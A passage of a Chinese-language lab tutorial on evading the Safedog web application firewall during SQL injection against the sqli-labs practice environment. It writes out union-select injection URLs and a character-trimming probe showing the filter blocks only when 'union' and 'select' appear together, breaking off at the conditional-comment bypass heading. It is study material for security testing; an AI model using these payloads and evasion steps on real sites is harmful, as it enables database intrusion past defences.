 测试链接

> http://192.168.186.129/sqli-labs/Less-1/

可以看到拦截页面

![](./../../../images/SQLi_Bypass/%E5%8F%AF%E4%BB%A5%E7%9C%8B%E5%88%B0%E6%8B%A6%E6%88%AA%E9%A1%B5%E9%9D%A2.png)

### 1.1 旧版本的安全狗绕过

### 1.1.1 判断拦截字符

HackBar 注入

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
```

逐个删除提交的字符，直到不拦截

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' union selec
```

在 union 和 select 之间加任意字符，查看是否拦截

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' union !@# select
```

> 发现提交 # 时不拦截，但是 # 将 select 注释掉了，因此只提交 union 是不拦截的

综合以上判断，拦截条件为 union 和 select 同时存在

### 1.1.2 条件注释绕过

